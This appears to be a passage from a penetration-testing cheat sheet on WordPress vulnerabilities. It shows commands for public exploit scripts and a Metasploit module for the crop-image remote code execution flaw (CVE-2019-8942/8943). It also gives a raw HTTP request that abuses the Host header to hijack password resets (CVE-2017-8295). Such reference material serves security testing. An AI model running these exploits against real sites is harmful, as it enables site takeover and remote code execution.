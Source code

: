 #### Crop-image Shell Upload - CVE-2019-8942, CVE-2019-8943

{% tabs %}
{% tab title="Exploit" %}
The Crop-image Shell Upload exploit take advantage of a path traversal and a local file inclusion vulnerability on WordPress. The `crop-image` function allows a user, with at least **author privileges**, to resize an image and perform a path traversal by changing the `_wp_attached_file` reference during the upload. The second part of the exploit will include this image in the current theme by changing the `_wp_page_template` attribute when creating a post.

{% hint style="info" %}
Versions of WordPress 5.0.0 and <= 4.9.8 are vulnerable
{% endhint %}

We can use [v0lck3r's exploit](https://github.com/v0lck3r/CVE-2019-8943) to perform the attack:

```bash
#Auto exploit
python3 RCE_wordpress.py <WP_URL> <USER> <PASSWORD> <THEME_NAME>
```

Or we may use [this exploit](https://github.com/hadrian3689/wordpress\_cropimage)

```bash
#Auto exploit
python3 wp_rce.py -t <WP_URL> -u <USER> -p <PASSWORD> -m <THEME_NAME>
```
{% endtab %}

{% tab title="Metasploit" %}
You can use exploit/multi/http/wp\_crop\_rce this way:

```
msf > use exploit/multi/http/wp_crop_rce
msf exploit(wp_crop_rce) > show targets
    ...targets...
msf exploit(wp_crop_rce) > set TARGET < target-id >
msf exploit(wp_crop_rce) > show options
    ...show and set options...
msf exploit(wp_crop_rce) > exploit
```
{% endtab %}
{% endtabs %}

#### Unauthorized Password Reset - CVE-2017-8295

{% tabs %}
{% tab title="Exploit" %}
If an attacker sends a request similar to the one below to a default Wordpress installation that is accessible by the IP address (IP-based vhost):

```http
POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
Host: injected-attackers-mxserver.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

user_login=admin&redirect_to=&wp-submit=Get+New+Password
```
